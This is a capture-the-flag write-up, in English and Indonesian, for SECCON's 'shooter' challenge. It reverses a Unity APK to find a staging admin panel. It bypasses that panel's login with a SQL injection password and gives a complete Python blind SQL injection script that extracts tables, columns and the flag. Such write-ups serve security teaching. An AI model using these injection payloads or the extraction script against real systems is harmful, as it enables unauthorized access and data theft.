



# shooter
---
**Points:** 434 | **Solves:** 13/653 | **Category:** Reversing

shooter

Enjoy the game!

[Download](shooter.apk_d0d2ed9e7ba3c83354cbbf7ccf82541730b14a72)

---

[Bahasa Indonesia](#bahasa-indonesia)

## English
With some recon, we learned that APK is built with Unity. There's also `lib/x86/libil2cpp.so` file, hinting it's built with [IL2CPP](https://docs.unity3d.com/Manual/IL2CPP.html). We used [IL2CppDumper](https://github.com/Perfare/Il2CppDumper) to analyze this APK, and provide the `lib/x86/libil2cpp.so` and `assets/bin/Data/Managed/Metadata/global-metadata.dat` file from APK. We used `Auto (Plus)` method to dump. Then, it produced several files, the most interesting one is `dump.cs` and `script.py`.

File `dump.cs` contains classes and interfaces.
```c#
...
public static class Config // TypeDefIndex: 3750
{
	// Fields
	public static string domain; // 0x0
	public static string stgDomain; // 0x4
	public static string devDomain; // 0x8
	public static string adminApi; // 0xC
}
...
public class GameDirector : MonoBehaviour // TypeDefIndex: 3753
{
	// Methods
	public void .ctor(); // 0xB1BF86
	private void Start(); // 0xB1C018
	private void ChangeStep(); // 0xB1C123
	private void HandleChangingStep(); // 0xB1C13B
	private void Update(); // 0xB1C41C
	public void UpdateScore(); // 0xB1C283
	public void UpdateMiss(); // 0xB1C36D
	public void UpdateRanking(string rankingText); // 0xB1C450
	public void AddScore(float score); // 0xB1C4F9
	public void IncrementMiss(); // 0xB1C530
	public void SubmitScore(); // 0xB1C5D3
	public void Retry(); // 0xB1C7B6
	private IEnumerator PostScore(string name, int score); // 0xB1C716
}
...
```

File `script.py` contains recovered symbols and can be run in IDA to rename stripped functions and symbols.
```python
...
SetString(0x11BB818, r'shooter.pwn.seccon.jp')
SetString(0x11BB81C, r'staging.shooter.pwn.seccon.jp')
SetString(0x11BB820, r'develop.shooter.pwn.seccon.jp')
SetString(0x11BB824, r'/admin')
SetString(0x11BB828, r'Score')
SetString(0x11BB82C, r'Miss')
SetString(0x11BB830, r'PlaneGenerator')
SetString(0x11BB834, r'ScoreFormView')
SetString(0x11BB838, r'RankingView')
SetString(0x11BB83C, r'Ranking')
SetString(0x11BB840, r'score')
SetString(0x11BB844, r'/api/v1/scores')
...
```

So we found some interesting domain and endpoints. We tried to access http://staging.shooter.pwn.seccon.jp/admin/ and redirected to a login page.



We did some fuzzing, and got error if our password contains `'` character.



We suspected that it's vulnerable to SQL injection. We continued to fuzz and finally can login with password `'))) or 1-- -`! Here we can see last 20 scores.



But other than that, nothing was interesting. We decided to dump database tables using boolean-based SQL injection with this script. We also used binary search to speed up the injection.

```python
import requests
import re
import string

def check(s):
    sess = requests.Session()
    r = sess.get("http://staging.shooter.pwn.seccon.jp/admin/sessions/new")
    auth_token = re.findall(r'name="authenticity_token" value="(.+?)"', r.text)[0]
    data = {
        "login_id": "admin",
        "authenticity_token": auth_token,
        "password": "')))||(select case when ({}) then 1 else 0 end)#".format(s)
    }
    r = sess.post("http://staging.shooter.pwn.seccon.jp/admin/sessions", data=data)
    if not r.ok:
        return False
    r = sess.get("http://staging.shooter.pwn.seccon.jp/admin/users", allow_redirects=False)
    return r.status_code == 200

def dump_tables():
    tables = ""
    while 1:
        lo = 0
        hi = 255
        while lo <= hi:
            mid = (lo+hi)//2
            s = "select ascii(substr((select group_concat(table_name) from information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'),{},1)) > {}"
            s = s.format(len(tables)+1,mid)
            if check(s):
                lo = mid+1
            else:
                hi = mid-1
        if lo == 0:
            return tables
        tables += chr(lo)
        print(tables)

dump_tables()
```

We got this output.
```
a
ar
ar_
ar_i
...
ar_internal_metadata,flags,managers,schema_migrations,score
ar_internal_metadata,flags,managers,schema_migrations,scores
```

Table `flags` sounds interesting. Then, we dumped the columns from the table.

```python
...
def dump_columns(table_name):
    columns = ""
    while 1:
        lo = 0
        hi = 255
        while lo <= hi:
            mid = (lo+hi)//2
            s = "select ascii(substr((select group_concat(column_name) from information_schema.columns where table_name = '{}'),{},1)) > {}"
            s = s.format(table_name, len(columns)+1, mid)
            if check(s):
                lo = mid+1
            else:
                hi = mid-1
        if lo == 0:
            return columns
        columns += chr(lo)
        print(columns)

dump_columns("flags")
```

We got this output.
```
i
id
id,
id,v
...
id,value,created_at,updated_a
id,value,created_at,updated_at
```

Okay now we should dump all rows with `value` column.
```python
...
def dump_flag():
    flag = ""
    while 1:
        lo = 0
        hi = 255
        while lo <= hi:
            mid = (lo+hi)//2
            s = "select ascii(substr((select group_concat(value) from flags),{},1)) > {}"
            s = s.format(len(flag)+1, mid)
            if check(s):
                lo = mid+1
            else:
                hi = mid-1
        if lo == 0:
            return flag
        flag += chr(lo)
        print(flag)

dump_flag()
```

We got this output, and the flag is valid!
```
S
SE
SEC
SECC
...
SECCON{1NV4L1D_4DM1N_P4G3_4U+H3NT1C4T10
SECCON{1NV4L1D_4DM1N_P4G3_4U+H3NT1C4T10N
SECCON{1NV4L1D_4DM1N_P4G3_4U+H3NT1C4T10N}
```

Flag: `SECCON{1NV4L1D_4DM1N_P4G3_4U+H3NT1C4T10N}`

## Bahasa Indonesia
Kami mempelajari bahwa APK di-build dengan Unity. Terdapat juga file `lib/x86/libil2cpp.so`, menandakan bahwa di-build juga dengan [IL2CPP](https://docs.unity3d.com/Manual/IL2CPP.html). Kami menggunakan [IL2CppDumper](https://github.com/Perfare/Il2CppDumper) untuk menganalisas APK ini, dan memasukkan file `lib/x86/libil2cpp.so` dan `assets/bin/Data/Managed/Metadata/global-metadata.dat` dari APK. Kami menggunakan metode `Auto (Plus)` untuk dump-nya. Kemudian program tersebut membuat beberapa file, dan yang paling menarik adalah `dump.cs` and `script.py`.

File `dump.cs` berisi class dan interface.
```c#
...
public static class Config // TypeDefIndex: 3750
{
	// Fields
	public static string domain; // 0x0
	public static string stgDomain; // 0x4
	public static string devDomain; // 0x8
	public static string adminApi; // 0xC
}
...
public class GameDirector : MonoBehaviour // TypeDefIndex: 3753
{
	// Methods
	public void .ctor(); // 0xB1BF86
	private void Start(); // 0xB1C018
	private void ChangeStep(); // 0xB1C123
	private void HandleChangingStep(); // 0xB1C13B
	private void Update(); // 0xB1C41C
	public void UpdateScore(); // 0xB1C283
	public void UpdateMiss(); // 0xB1C36D
	public void UpdateRanking(string rankingText); // 0xB1C450
	public void AddScore(float score); // 0xB1C4F9
	public void IncrementMiss(); // 0xB1C530
	public void SubmitScore(); // 0xB1C5D3
	public void Retry(); // 0xB1C7B6
	private IEnumerator PostScore(string name, int score); // 0xB1C716
}
...
```

File `script.py` berisi symbol yang berhasil dilakukan recovery dan dapat dijalankan di IDA untuk mengembalikan nama fungsi dan symbol.
```python
...
SetString(0x11BB818, r'shooter.pwn.seccon.jp')
SetString(0x11BB81C, r'staging.shooter.pwn.seccon.jp')
SetString(0x11BB820, r'develop.shooter.pwn.seccon.jp')
SetString(0x11BB824, r'/admin')
SetString(0x11BB828, r'Score')
SetString(0x11BB82C, r'Miss')
SetString(0x11BB830, r'PlaneGenerator')
SetString(0x11BB834, r'ScoreFormView')
SetString(0x11BB838, r'RankingView')
SetString(0x11BB83C, r'Ranking')
SetString(0x11BB840, r'score')
SetString(0x11BB844, r'/api/v1/scores')
...
```

Kami mendapat beberapa domain dan endpoint yang menarik. Kami mencoba mengakses
http://staging.shooter.pwn.seccon.jp/admin/ dan di-redirect ke halaman


Kami mencoba melakukan fuzzing, dan mendapat error jika password mengandung karakter `'`.


Kami menduga bahwa halaman tersebut vulnerable terhadap SQL injection. Kami meneruskan fuzzing dan akhirnya dapat login dengan password `'))) or 1-- -`! Dari sini kita dapat melihat 20 skor terakhir.


Akan tetapi, selain itu tidak ada yang menarik. Kami mencoba untuk dump semua tabel database dengan teknik boolean-based SQL injection. Kami juga menggunakan algoritma binary search untuk mempercepat prosesnya.

```python
import requests
import re
import string

def check(s):
    sess = requests.Session()
    r = sess.get("http://staging.shooter.pwn.seccon.jp/admin/sessions/new")
    auth_token = re.findall(r'name="authenticity_token" value="(.+?)"', r.text)[0]
    data = {
        "login_id": "admin",
        "authenticity_token": auth_token,
        "password": "')))||(select case when ({}) then 1 else 0 end)#".format(s)
    }
    r = sess.post("http://staging.shooter.pwn.seccon.jp/admin/sessions", data=data)
    if not r.ok:
        return False
    r = sess.get("http://staging.shooter.pwn.seccon.jp/admin/users", allow_redirects=False)
    return r.status_code == 200

def dump_tables():
    tables = ""
    while 1:
        lo = 0
        hi = 255
        while lo <= hi:
            mid = (lo+hi)//2
            s = "select ascii(substr((select group_concat(table_name) from information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'),{},1)) > {}"
            s = s.format(len(tables)+1,mid)
            if check(s):
                lo = mid+1
            else:
                hi = mid-1
        if lo == 0:
            return tables
        tables += chr(lo)
        print(tables)

dump_tables()
```

Kami mendapatkan output ini.
```
a
ar
ar_
ar_i
...
ar_internal_metadata,flags,managers,schema_migrations,score
ar_internal_metadata,flags,managers,schema_migrations,scores
```

Tabel `flags` terlihat menarik. Kemudian kami melakukan dump kolom untuk tabel tersebut.

```python
...
def dump_columns(table_name):
    columns = ""
    while 1:
        lo = 0
        hi = 255
        while lo <= hi:
            mid = (lo+hi)//2
            s = "select ascii(substr((select group_concat(column_name) from information_schema.columns where table_name = '{}'),{},1)) > {}"
            s = s.format(table_name, len(columns)+1, mid)
            if check(s):
                lo = mid+1
            else:
                hi = mid-1
        if lo == 0:
            return columns
        columns += chr(lo)
        print(columns)

dump_columns("flags")
```

Kami mendapatkan output ini.
```
i
id
id,
id,v
...
id,value,created_at,updated_a
id,value,created_at,updated_at
```

Oke sekarang saatnya melakukan dump semua baris dengan kolom `value`.
```python
...
def dump_flag():
    flag = ""
    while 1:
        lo = 0
        hi = 255
        while lo <= hi:
            mid = (lo+hi)//2
            s = "select ascii(substr((select group_concat(value) from flags),{},1)) > {}"
            s = s.format(len(flag)+1, mid)
            if check(s):
                lo = mid+1
            else:
                hi = mid-1
        if lo == 0:
            return flag
        flag += chr(lo)
        print(flag)

dump_flag()
```

Kami mendapatkan output ini, dan flagnya valid!
```
S
SE
SEC
SECC
...
SECCON{1NV4L1D_4DM1N_P4G3_4U+H3NT1C4T10
SECCON{1NV4L1D_4DM1N_P4G3_4U+H3NT1C4T10N
SECCON{1NV4L1D_4DM1N_P4G3_4U+H3NT1C4T10N}
```

Flag: `SECCON{1NV4L1D_4DM1N_P4G3_4U+H3NT1C4T10N}`